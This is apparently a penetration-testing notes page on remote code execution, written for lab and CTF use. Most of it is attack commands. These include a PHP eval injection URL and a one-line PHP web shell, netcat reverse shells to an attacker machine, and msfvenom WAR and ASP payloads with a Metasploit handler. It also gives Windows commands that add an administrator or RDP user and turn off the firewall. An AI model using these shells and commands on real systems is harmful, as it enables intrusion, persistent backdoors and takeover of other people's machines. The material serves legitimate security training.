 # Remote code execution

Remote code execution \(RCE\), also known as code injection, refers to an attacker executing commands on a system from a remote machine. Often this means exploiting a web application/server to run commands for the underlaying operating system.

## Basic technique

The following php snippet will take the `GET` parameter `code` and run it through the `eval()` function without any input sanitization:

```text
<?php $code = $_GET['code'];
eval($code); ?>
```

The `eval()` function evaluates the contents as php code, which means we can provide any php code as an argument. The code injection would look like this:

```text
http://[host]/page.php?code=phpinfo();
```

## Remote command execution

You might also be able to execute single-line system commands like `system('id');`. For multi-line system commands, use `shell_exec`:

```text
http://[host]/page.php?code=echo shell_exec('/sbin/ifconfig eth0');
```

This method is useful for both system enumeration and shell injection. Make sure to use absolute paths for calling system files, or the web application may not find them.

## Shells
For most lab or CTF environments, the goal is to get some kind of command shell on the machine for further exploitation. Sometimes this simply means discovering SSH or remote desktop credentials and logging in. Other times, it's exploiting a web application to generate a reverse shell that connects to your attack machine and waits for instructions.

In real life I'm not sure how often reverse shells really happen, but they're fun to pull off in the lab.

If shells are a new concept, [this is a good primer](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

## Listeners
Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port. 

### Netcat listener
Using ports 80 or 443 will help you get around egress filtering:
```
nc -lvp 443
```
### Meterpreter listener
You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

## Simple PHP web shell
Assuming you are able to put a file on the web server or edit an existing one (e.g. CMS template) this is the simplest type of shell:

```
<?php echo shell_exec($_GET['cmd']); ?>
```
You can use it for system commands: 
```
http://[host]/wordpress/index.php?cmd=id
```
You can also use it to create a reverse shell:
```
http://[host]/wordpress/?cmd=nc [attack machine] [port] -e /bin/sh
```
## PHP shell
This [PHP web shell from pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is nice. Make sure to change the following variables before uploading:
```
$ip = '127.0.0.1';  # change to attack machine IP
$port = 1234;       # change to attack machine port
```
## Perl shell
I've never tried [a Perl shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell) because I've never encountered a Perl web server, but it's probably okay. 

As with the PHP shell, change the following variables:
```
my $ip = '127.0.0.1';
my $port = 1234;
```

## WAR shell
If you're able to access a Tomcat server's management interface, you can generate and upload a WAR file:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[attack machine] LPORT=443 -f war > shell.war
```
You can fire the shell by clicking on the link in Tomcat's management interface, or by going to the appropriate URL (e.g. `http://[host]/shell/`)

## Windows
Windows is a little weird. If you encounter an IIS server, you can use msfvenom to create an `.asp` or `.aspx` payload:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attack machine] LPORT=443 -f asp > shell.asp
```
You can also attempt to download `nc.exe`, then run: 
```
nc.exe -e cmd.exe [attack machine] [port]
```
If RDP is enabled (port 3389), you might be able to create a user and add them to the “Remote Desktop Users” group, then log in via remote desktop.

Add a user on windows:
```
net user $username $password /add
```
Add a user to the “Remote Desktop Users” group:
```
net localgroup "Remote Desktop Users" $username /add
```
Make a user an administrator:
```
net localgroup administrators $username /add
```
Disable Windows firewall on newer versions:
```
NetSh Advfirewall set allprofiles state off
```
Disable windows firewall on older windows:
```
netsh firewall set opmode disable
```
## Upgrading shell
You will use this line pretty often to fix your shells:
```
python -c 'import pty; pty.spawn("/bin/bash");'
```
To improve the shell further, use `Ctrl + Z` to background the reverse shell, then in your local machine run:
```
stty raw -echo
fg
```
Things are going to look really messed up at this point, just type `reset` and hit `Enter`. This should provide you with a fully interactive reverse shell.

If the shell dimensions are wrong, background the reverse shell again with `Ctrl + Z`, go to your local machine and run:
```
stty size
```
This should return two numbers, which are the number of rows and columns in your terminal. Assuming these numbers are `48 120`, return to your victim machine’s shell and run:
```
stty -rows 48 -columns 120
```
## Further reading
* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Creating Metasploit payloads](https://netsec.ws/?p=331)
